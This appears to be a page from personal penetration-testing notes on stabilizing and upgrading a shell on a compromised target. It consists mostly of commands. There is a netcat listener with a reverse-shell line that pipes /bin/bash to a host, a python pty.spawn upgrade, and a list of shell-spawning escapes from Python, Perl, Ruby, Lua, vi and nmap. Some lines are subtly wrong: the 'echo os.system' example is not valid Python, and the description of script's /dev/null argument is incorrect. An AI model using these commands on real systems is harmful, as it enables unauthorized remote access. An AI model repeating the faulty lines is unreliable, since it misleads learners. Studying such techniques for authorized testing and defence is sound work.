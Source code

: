 # 🧛‍♂️ Stabilize & Elevate a shell

First, it's good to have knowledge about what kind of way you can pop a shell:

{% content-ref url="../../still-sorting-out/documentation/cybersecurity-documentation/exploitation-basics/reverse-shell-and-bind-shell.md" %}
[reverse-shell-and-bind-shell.md](../../still-sorting-out/documentation/cybersecurity-documentation/exploitation-basics/reverse-shell-and-bind-shell.md)
{% endcontent-ref %}

<figure><img src="../../.gitbook/assets/image (792).png" alt=""><figcaption></figcaption></figure>

If you have a nc shell tab auto complete, to up arrow and formatting problems →

**Listener:**

```
nc -nlvp 80
```

**Target:**&#x20;

```
nc -e /bin/bash 127.0.0.1 80
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First technique with python:

```
python -c 'import pty; pty.spawn("/bin/bash")'
#OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (9).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys" %}

this relies on the target system having python

you can utilize other commands:

1.  Python:

    ```python
    echo os.system('/bin/bash')
    ```

    This Python code uses the `os.system()` function to execute `/bin/bash`.
2.  Bourne Shell:

    ```
    /bin/sh -i
    ```

    This command executes the Bourne shell `/bin/sh` in interactive mode (`-i`).
3.  Using script utility:

    ```
    script -qc /bin/bash /dev/null
    ```

    This command uses the `script` utility to run `/bin/bash` with output suppression (`-q`) and input redirection from `/dev/null`.
4.  Perl:

    ```
    perl -e 'exec "/bin/sh";'
    ```

    &#x20;In Perl, this command executes `/bin/sh` using the `exec` function.
5.  Ruby:

    ```
    exec "/bin/sh"
    ```

    This Ruby command uses the `exec` function to execute `/bin/sh`.
6.  Lua:

    ```
    os.execute('/bin/sh')
    ```

    In Lua, this command uses `os.execute()` to execute `/bin/sh`.
7.  Ruby IRB:

    ```
    exec "/bin/sh"
    ```

    This command is executed in the Ruby IRB (Interactive Ruby) shell and uses `exec` to execute `/bin/sh`.
8.  vi:

    ```
    :!bash
    ```

    In the vi editor, this command executes `bash` shell.
9.  vi (setting shell):

    ```
    :set shell=/bin/bash:shell
    ```

    This sets the shell to `/bin/bash` in vi.
10. nmap:

    ```
    !sh
    ```

    In nmap, the `!` is used to execute shell commands. Here it's running `/bin/sh`.

